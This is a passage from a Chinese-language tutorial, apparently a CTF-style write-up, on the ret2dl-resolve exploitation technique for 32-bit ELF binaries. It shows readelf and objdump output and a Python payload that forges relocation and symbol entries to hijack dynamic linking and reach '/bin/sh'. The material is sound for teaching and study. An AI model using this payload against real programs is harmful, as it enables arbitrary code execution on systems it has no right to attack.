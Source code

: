 ```text
$ readelf -s a.out | grep write
     7: 00000000     0 FUNC    GLOBAL DEFAULT  UND write@GLIBC_2.0 (2)
```

转储 `.dynsym` 段并找到第 7 行：

```text
$ objdump -s -j .dynsym a.out
...
 804823c 4c000000 00000000 00000000 12000000  L...............
...
```

其中最重要的是 `st_name` 和 `st_info`，分别为 `0x4c` 和 `0x12`。构造 payload 如下：

```python
reloc_index = base_addr + 28 - rel_plt
fake_sym_addr = base_addr + 36
align = 0x10 - ((fake_sym_addr - dynsym) & 0xf) # since the size of Elf32_Sym is 0x10
fake_sym_addr = fake_sym_addr + align

r_sym = (fake_sym_addr - dynsym) / 0x10  # calcute the symbol index since the size of Elf32_Sym
r_type = 0x7    # R_386_JMP_SLOT -> Create PLT entry
r_info = (r_sym << 8) + (r_type & 0xff) # ELF32_R_INFO(sym, type) = (((sym) << 8) + ((type) & 0xff))
fake_reloc = p32(write_got) + p32(r_info)

st_name = 0x4c
st_info = 0x12
fake_sym = p32(st_name) + p32(0) + p32(0) + p32(st_info)

payload_5  = "AAAA"
payload_5 += p32(plt_0)
payload_5 += p32(reloc_index)
payload_5 += "AAAA"
payload_5 += p32(1)
payload_5 += p32(base_addr + 80)
payload_5 += p32(len("/bin/sh"))
payload_5 += fake_reloc
payload_5 += "A" * align
payload_5 += fake_sym
payload_5 += "A" * (80 - len(payload_5))
payload_5 += "/bin/sh\x00"
payload_5 += "A" * (100 - len(payload_5))

io.sendline(payload_5)
print io.recv()
```

一样地讲一下 st_info 的解析和插入算法：

```C
#define ELF32_ST_BIND(val)      (((unsigned char) (val)) >> 4)
#define ELF32_ST_TYPE(val)      ((val) & 0xf)
#define ELF32_ST_INFO(bind, type)   (((bind) << 4) + ((type) & 0xf))
```

